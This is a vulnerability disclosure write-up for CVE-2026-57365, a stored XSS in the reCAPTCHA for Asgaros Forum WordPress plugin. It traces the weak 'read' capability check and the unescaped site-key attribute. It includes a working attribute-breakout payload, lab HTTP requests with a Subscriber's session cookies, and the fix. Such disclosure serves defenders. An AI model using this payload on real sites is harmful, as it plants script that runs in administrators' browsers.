





# CVE-2026-57365 - Stored XSS in reCAPTCHA for Asgaros Forum via Site Key

## Overview

- Advisory: https://www.cve.org/CVERecord?id=CVE-2026-57365
- CVE-2026-57365
- Affected plugin: reCAPTCHA (v2 & v3) for Asgaros Forum
- Affected versions: `<= 1.1.0`



## Summary

The vulnerability exists in the reCAPTCHA settings page of the `recaptcha-for-asgaros-forum` plugin.

In the tested version `1.0.8`, the plugin registers its admin submenu with the overly broad `read` capability. This capability is available to the default Subscriber role, so a low-privileged authenticated user can access the settings page:

```text
/wp-admin/admin.php?page=asgaros-recaptcha
```

From this page, a Subscriber can obtain a valid `_wpnonce` and submit the reCAPTCHA settings form. The `rfaf_recaptcha_site_key` value is stored in a WordPress option after passing through `sanitize_text_field()`, but that function is not sufficient protection when the value is later rendered inside an HTML attribute.

The plugin then renders the stored site key directly into the frontend editor of Asgaros Forum:

```html
<div class='g-recaptcha' data-sitekey='$site_key'></div>
```

Because the output is not escaped for an HTML attribute context, an attacker can break out of the `data-sitekey` attribute with a single quote and inject a new event handler such as `onmouseover=alert(1339)`. The payload is stored persistently in the database and is rendered again on the forum topic or reply editor.

As a result, a Subscriber can plant persistent JavaScript on a same-origin forum page. When an administrator or another privileged user opens the affected editor and interacts with the captcha area, the payload runs in the victim's browser session.

## How I Found It

I started by reviewing add-on plugins for Asgaros Forum because plugins of this type commonly add content to the frontend editor and expose their own settings pages in wp-admin.

The first notable issue was that the reCAPTCHA settings page did not require a strong administrative capability. In the plugin source, the submenu is registered with the `read` capability:

```php
function rfaf_add_admin_submenu() {
    add_submenu_page(
        'asgarosforum-structure',
        'reCAPTCHA',
        'reCAPTCHA',
        'read',
        'asgaros-recaptcha',
        'rfaf_recaptcha_callback'
    );
}
```


`read` is a default capability for Subscribers. I therefore logged in as the Subscriber user `rfafsub` and accessed the page directly:

```text
/wp-admin/admin.php?page=asgaros-recaptcha
```

The page returned `200 OK`, displayed the configuration form, and exposed a nonce:

```html
<input type="hidden" id="_wpnonce" name="_wpnonce" value="3d127f8dde" />
```

I then reviewed the settings save flow. The save handler runs on the `wp_loaded` hook, verifies only the nonce, and updates the option:

```php
function rfaf_save_recaptcha_setting() {
    if( isset( $_POST['rfaf_recaptcha_submit'] ) ):
        $nonce = $_REQUEST['_wpnonce'];
        if(wp_verify_nonce($nonce, 'rfaf_recaptcha_submit_nonce')) {
            $rfaf_recaptcha_site_key = sanitize_text_field($_POST['rfaf_recaptcha_site_key']);
            update_option( 'rfaf_recaptcha_site_key', $rfaf_recaptcha_site_key);
        }
    endif;
}
add_action('wp_loaded', 'rfaf_save_recaptcha_setting');
```

The second issue is in the frontend sink. When the Asgaros Forum editor renders the captcha, the site key is echoed directly into an HTML attribute:

```php
echo "<div class='g-recaptcha' data-sitekey='$site_key'></div>";
```

Here, `sanitize_text_field()` is not HTML attribute escaping. If the value contains a single quote, the browser closes the current attribute and parses the following text as a new attribute.

## Root Cause

The root cause is the combination of two issues:

1. The reCAPTCHA settings page and save flow use overly weak authorization.
2. User-controlled configuration data is rendered into an HTML attribute without `esc_attr()`.

### 1. Subscriber Can Access the Settings Page

The settings page uses the `read` capability:

```php
add_submenu_page( 'asgarosforum-structure', 'reCAPTCHA', 'reCAPTCHA', 'read', 'asgaros-recaptcha', 'rfaf_recaptcha_callback' );
```

In WordPress, `read` is not an administrative settings capability. It is a basic capability assigned to authenticated users, including Subscribers.

### 2. The Save Handler Does Not Block Low-Privileged Users

The save handler relies only on a nonce that the Subscriber can obtain from the same form:

```php
$nonce = $_REQUEST['_wpnonce'];
if(wp_verify_nonce($nonce, 'rfaf_recaptcha_submit_nonce')) {
    $rfaf_recaptcha_site_key = sanitize_text_field($_POST['rfaf_recaptcha_site_key']);
    update_option( 'rfaf_recaptcha_site_key', $rfaf_recaptcha_site_key);
}
```

In WordPress, a nonce protects against CSRF. It does not replace authorization. If a low-privileged user can view the form and obtain the nonce, that user can still submit the form successfully.

### 3. The Site Key Is Rendered Without Escaping

The XSS sink is in the captcha integration for the editor:

```php
echo "<div class='g-recaptcha' data-sitekey='$site_key'></div>";
```

Payload:

```text
x' onmouseover=alert(1339) data-x='
```

When this value is rendered into HTML, the output becomes:

```html
<div class='g-recaptcha' data-sitekey='x\' onmouseover=alert(1339) data-x=\''></div>
```

In HTML, a backslash does not escape a single quote. The browser still treats the `'` as the end of the `data-sitekey` attribute and parses `onmouseover=alert(1339)` as an executable event handler.

## Exploit Flow

```text
Subscriber logs in
        |
        v
GET /wp-admin/admin.php?page=asgaros-recaptcha
        |
        v
Obtain _wpnonce from the settings form
        |
        v
POST rfaf_recaptcha_site_key = x' onmouseover=alert(1339) data-x='
        |
        v
rfaf_save_recaptcha_setting()
        |
        v
update_option('rfaf_recaptcha_site_key', payload)
        |
        v
Asgaros Forum editor renders g-recaptcha
        |
        v
Payload appears inside an HTML attribute
        |
        v
Victim hovers over the captcha -> JavaScript executes
```

- Entry point: `/wp-admin/admin.php?page=asgaros-recaptcha`
- Requirement: The attacker has a Subscriber account and Asgaros Forum renders an editor with captcha enabled.
- Trigger: Submit a site key value that breaks out of the HTML attribute.
- Sink: `rfaf_bbp_captcha_integrate()` echoes `$site_key` into `data-sitekey`.
- Final result: Stored XSS on the frontend forum editor page.

## PoC

Lab environment:

```text
Target:          http://192.168.1.14:8092/
Server:          Apache/2.4.66 (Debian)
WordPress:       6.9.4
Asgaros Forum:   3.3.0
Plugin:          reCAPTCHA (v2 & v3) for Asgaros Forum 1.0.8
Attacker user:   Subscriber
Forum editor:    /forum/addtopic/1/
```

#### Subscriber Obtains the Nonce

```http
GET /wp-admin/admin.php?page=asgaros-recaptcha HTTP/1.1
Host: 192.168.1.14:8092
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.14:8092/wp-login.php
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_3c8d6769c82de5855aae43a1aa7ebf72=rfafsub%7C1785251540%7CEhl7Cdn0b2bmTxnsTpd5dzXlcAgAp5nStd5HKlBre80%7C4c66efc93edd00fa1cf492ab186c7dc7f598ea365fd688804fd785158a2e52ed; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_3c8d6769c82de5855aae43a1aa7ebf72=rfafsub%7C1785251540%7CEhl7Cdn0b2bmTxnsTpd5dzXlcAgAp5nStd5HKlBre80%7Cd62bcd68adf822fea7f757d80b280c6da2145b7e2b922cb2b9ef061a3f9eb818
Connection: keep-alive
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

...
<input type="hidden" id="_wpnonce" name="_wpnonce" value="41dc6b54a6" />
...
```



#### Subscriber Stores the Payload in the Site Key

Payload used to break out of the attribute:

```text
x' onmouseover=alert(1339) data-x='
```

Request:

```http
POST /wp-admin/admin.php?page=asgaros-recaptcha HTTP/1.1
Host: 192.168.1.14:8092
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.1.14:8092
Referer: http://192.168.1.14:8092/wp-admin/admin.php?page=asgaros-recaptcha
Cookie: wordpress_3c8d6769c82de5855aae43a1aa7ebf72=rfafsub%7C1785251540%7CEhl7Cdn0b2bmTxnsTpd5dzXlcAgAp5nStd5HKlBre80%7C4c66efc93edd00fa1cf492ab186c7dc7f598ea365fd688804fd785158a2e52ed; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_3c8d6769c82de5855aae43a1aa7ebf72=rfafsub%7C1785251540%7CEhl7Cdn0b2bmTxnsTpd5dzXlcAgAp5nStd5HKlBre80%7Cd62bcd68adf822fea7f757d80b280c6da2145b7e2b922cb2b9ef061a3f9eb818
Connection: close
Content-Length: 413

_wpnonce=41dc6b54a6&_wp_http_referer=%2Fwp-admin%2Fadmin.php%3Fpage%3Dasgaros-recaptcha&rfaf_recaptcha_submit=Save&rfaf_recaptcha_version=version+2&rfaf_recaptcha_site_key=x%27+onmouseover%3Dalert%281339%29+data-x%3D%27&rfaf_recaptcha_server_key=v2server&rfaf_recaptcha_v3_site_key=v3site&rfaf_recaptcha_v3_server_key=v3server&rfaf_recaptcha_v3_score=0.5&rfaf_recaptcha_language=en&rfaf_recaptcha_registerd_user=1
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<div id="message" class="updated notice notice-success is-dismissible">
    <p>Updated</p>
...
<input class="regular-text" type="text" name="rfaf_recaptcha_site_key"
       value="x\&##039; onmouseover=alert(1339) data-x=\&##039;"
       placeholder="**************">
```



Verify that the option was stored in the database:


#### Frontend Forum Renders the Payload

Open the Asgaros Forum topic creation page:

```http
GET /forum/addtopic/1/ HTTP/1.1
Host: 192.168.1.14:8092
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_3c8d6769c82de5855aae43a1aa7ebf72=rfafsub%7C1785251540%7CEhl7Cdn0b2bmTxnsTpd5dzXlcAgAp5nStd5HKlBre80%7Cd62bcd68adf822fea7f757d80b280c6da2145b7e2b922cb2b9ef061a3f9eb818; wp-settings-time-2=1785078740
Connection: keep-alive
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

...
<div class="editor-row editor-row-captcha"><div class='g-recaptcha' data-sitekey='x\' onmouseover=alert(1339) data-x=\''></div>
...
```



When the browser parses this HTML, `onmouseover=alert(1339)` becomes an independent event handler on the `div.g-recaptcha` element. Hovering over the captcha area triggers the alert.



State summary:

```text
Subscriber
        -> can access the settings page
        -> obtains a nonce
        -> stores the payload in rfaf_recaptcha_site_key
        -> the payload is rendered in the frontend forum editor
        -> stored XSS executes when the victim interacts with the captcha
```

## Impact

The vulnerability allows a Subscriber account to plant persistent JavaScript on a same-origin frontend page of the WordPress site.

If an administrator or another privileged user opens the affected forum editor and interacts with the captcha, the JavaScript executes in that user's browser context. From there, an attacker may perform further same-origin actions, for example:

1. Read nonces available in the victim's session.
2. Send requests that modify content or configuration using the victim's privileges.
3. Inject redirects, phishing content, or data theft scripts.
4. Affect the integrity of site content.

The key risk is that the attacker only needs a low-privileged account, while the payload is stored persistently in plugin configuration and rendered on the frontend.

## Limitations

- The attacker needs at least an authenticated Subscriber account.
- The victim must open a forum editor page where the captcha is rendered.
- The `onmouseover` payload requires user interaction to trigger.
- The issue does not directly grant administrator access or RCE; it provides a same-origin XSS foothold.
- The lab confirmed the issue on `1.0.8`; the public advisory lists the affected range as `<= 1.1.0`.

## Mitigation

Administrators should update reCAPTCHA (v2 & v3) for Asgaros Forum to `1.1.1` or later.

At the code level, low-privilege users must not be able to access or update plugin settings. The settings page and save handler should require an appropriate capability such as `manage_options`.

Values rendered into HTML attributes, including the reCAPTCHA site key, must be escaped with an attribute-context escaping function such as `esc_attr()` before output. User-controlled settings should not be printed directly into frontend markup.

## References

- reCAPTCHA (v2 & v3) for Asgaros Forum: https://wordpress.org/plugins/recaptcha-for-asgaros-forum/
- Patchstack advisory: https://patchstack.com/database/Wordpress/Plugin/recaptcha-for-asgaros-forum/vulnerability/wordpress-recaptcha-v2-v3-for-asgaros-forum-plugin-1-1-0-cross-site-scripting-xss-vulnerability
- WordPress plugin source tag 1.1.0: https://plugins.svn.wordpress.org/recaptcha-for-asgaros-forum/tags/1.1.0/
- WordPress plugin source tag 1.1.1: https://plugins.svn.wordpress.org/recaptcha-for-asgaros-forum/tags/1.1.1/
